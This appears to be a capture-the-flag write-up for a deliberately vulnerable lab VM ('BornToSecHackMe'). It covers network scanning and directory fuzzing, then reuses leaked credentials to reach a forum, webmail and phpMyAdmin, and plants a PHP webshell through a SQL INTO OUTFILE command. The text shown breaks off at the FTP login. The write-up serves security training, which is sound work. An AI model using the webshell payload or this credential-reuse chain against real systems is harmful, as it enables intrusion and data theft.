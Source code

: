 # Writeup1

## 1. Finding the IP

On the Windows machine, we use `ipconfig` to get the network address:
```
PS C:\Users\user> ipconfig
Carte réseau sans fil Wi-Fi :

   Suffixe DNS propre à la connexion. . . :
   Adresse IPv6. . . . . . . . . . . . . .: 2a04:cec0:10f7:c1d1:83b9:f706:901f:e740
   Adresse IPv6 temporaire . . . . . . . .: 2a04:cec0:10f7:c1d1:6919:2648:8564:bd77
   Adresse IPv6 de liaison locale. . . . .: fe80::9b0e:c803:3db7:d80c%17
   Adresse IPv4. . . . . . . . . . . . . .: 192.168.13.56
   Masque de sous-réseau. . . . . . . . . : 255.255.255.0
   Passerelle par défaut. . . . . . . . . : fe80::24a7:dbff:fec2:243%17
                                       192.168.13.206
```

In this case the network ip is `192.168.13.0`

On the Kali-Linux machine, we use `nmap -sn` to scan the network for all hosts
```
nmap -sn 192.168.13.0/24
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-23 17:35 CEST
Nmap scan report for 192.168.13.112
Host is up (0.0012s latency).
Nmap scan report for 192.168.13.206
Host is up (0.0066s latency).
Nmap done: 256 IP addresses (2 hosts up) scanned in 43.33 seconds
```

We get two hosts, one is `192.168.13.206` which is the address present in the `ipconfig`, the other one is the VM

## 2. Look for running services

Let's scan this ip with `nmap`
```
nmap 192.168.13.112
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-29 18:18 CEST
Nmap scan report for 192.168.13.112
Host is up (0.00032s latency).
Not shown: 994 closed tcp ports (reset)
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
```

## 3. Fuzz access paths

Ports 80 and 443 are open which means a website is present on the machine, let's fuzz it with `dirb`

```
dirb https://192.168.13.112

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Wed May 29 18:20:23 2024
URL_BASE: https://192.168.13.112/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: https://192.168.13.112/ ----
+ https://192.168.13.112/cgi-bin/ (CODE:403|SIZE:291)
==> DIRECTORY: https://192.168.13.112/forum/
==> DIRECTORY: https://192.168.13.112/phpmyadmin/
+ https://192.168.13.112/server-status (CODE:403|SIZE:296)
==> DIRECTORY: https://192.168.13.112/webmail/

...
```

Let's access those links with our web browser

## 4. Forum Inspection

Here is `https://192.168.13.112/forum`

![](https://cdn.discordapp.com/attachments/1077902420316799028/1245415659970494504/image.png?ex=6658ab38&is=665759b8&hm=4437c69e262c3006d8eefc7e4e374ebabb69ff27967e637a3e9966ba31a26262&)

After close inspection the `Problem login` topic is a log file containing what looks to be login credentials

```
...
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Received disconnect from 161.202.39.38: 3: com.jcraft.jsch.JSchException: Auth fail [preauth]
Oct 5 08:46:01 BornToSecHackMe CRON[7549]: pam_unix(cron:session): session opened for user lmezard by (uid=1040)
...
```

These credentials allows us to connect to the forum as the user `lmezard`

## 5. Logging into the forum

> login: `lmezard`

> password: `!q\]Ej?*5K5cy*AJ`

After loggin in we get access to the user's profile which gives us an email

![](https://cdn.discordapp.com/attachments/1077902420316799028/1245419184717037568/image.png?ex=6658ae80&is=66575d00&hm=43efedf37e46d8d4e5354e7b726f97dd2f186a7ffb1262281ffa2fe062617a80&)

We can try using this email and the password to access the webmail

## 6. Logging into the webmail

> login: `laurie@borntosec.net`

> password: `!q\]Ej?*5K5cy*AJ`

After loggin in we get access to two mails

![](https://cdn.discordapp.com/attachments/1077902420316799028/1245421042978127872/image.png?ex=6658b03b&is=66575ebb&hm=146d9c4a8d086d886f912e08d7407ff3c4fe19b577ba3fdaa9cc8650025a7252&)


The `DB Access` mail contains login credentials

```
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
```

## 7. Logging into Phpmyadmin

> login: `root`

> password: `Fg-'kKXBj87E:aJ$`

After login into Phpmyadmin we get a full `root` access to all DBs in the service

![](https://cdn.discordapp.com/attachments/1077902420316799028/1245429337885507604/image.png?ex=6658b7f5&is=66576675&hm=ad8556dd86f1f1d149a965c4b5a3911c976ba4e713965a8d8002838e090b62b3&)

Now we will try to get a `shell` to the machine by injecting a new `php` page into the forum that will execute the commands we give it

## 8.0 Injecting a webshell

We will use a SQL command to create a new file inside the forum pages directory

```SQL
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE 'FORUM_LOCATION/PAGE_LOCATION'
```

First we have to find the `FORUM_LOCATION` and `PAGE_LOCATION` to create the new page

Knowing the forum is using Apache, the app location is usually `/var/www`

Using `dirb` we can scan the forum for directories

```
dirb https://192.168.50.112/forum

---- Scanning URL: https://192.168.50.112/forum/ ----
+ https://192.168.50.112/forum/backup (CODE:403|SIZE:295)
+ https://192.168.50.112/forum/config (CODE:403|SIZE:295)
==> DIRECTORY: https://192.168.50.112/forum/images/
==> DIRECTORY: https://192.168.50.112/forum/includes/
+ https://192.168.50.112/forum/index (CODE:200|SIZE:4984)
+ https://192.168.50.112/forum/index.php (CODE:200|SIZE:4984)
==> DIRECTORY: https://192.168.50.112/forum/js/
==> DIRECTORY: https://192.168.50.112/forum/lang/
==> DIRECTORY: https://192.168.50.112/forum/modules/
==> DIRECTORY: https://192.168.50.112/forum/templates_c/
==> DIRECTORY: https://192.168.50.112/forum/themes/
==> DIRECTORY: https://192.168.50.112/forum/update/
```

Now we can try uploading the `shell.php` file on each directory using the command in `Phpmyadmin`

It only worked in `/forum/templaces_c` (the path is `/var/www/forum/templates_c`)

![](https://cdn.discordapp.com/attachments/1077902420316799028/1245766116358230147/image.png?ex=6659f19b&is=6658a01b&hm=64619b75648fcce9189b2e93323053c70ace1c31b6af814b309132c53f7bc55a&)

Now we can use this script as a webshell passing `cmd=COMMAND_TO_EXECUTE` as argument

![](https://cdn.discordapp.com/attachments/1077902420316799028/1245773173375369356/image.png?ex=6659f82d&is=6658a6ad&hm=3633da56275f67b5993db873478b677bc6f55c12655501dfc86d95aade5ee7dc&)

## 9. Getting a FTP access

Now that we have a shell access as user `www-data`, we will look into the machine to find usefull information

Starting in `/home/` we can see multiple users

![](https://cdn.discordapp.com/attachments/1077902420316799028/1245779549157855376/image.png?ex=6659fe1d&is=6658ac9d&hm=952aa37be837c06746e5deb5886943c3671fe882f5896444b7f0b4434a78abd9&)

We have `read` permissions only on the `/home/LOOKATME` directory

It contains a single file `password` with the following content

```
lmezard:G!@M6f4Eatau{sF"
```

This looks like credentials, we can use them to connect to the FTP 

> login: `lmezard`

> password: `G!@M6f4Eatau{sF"`




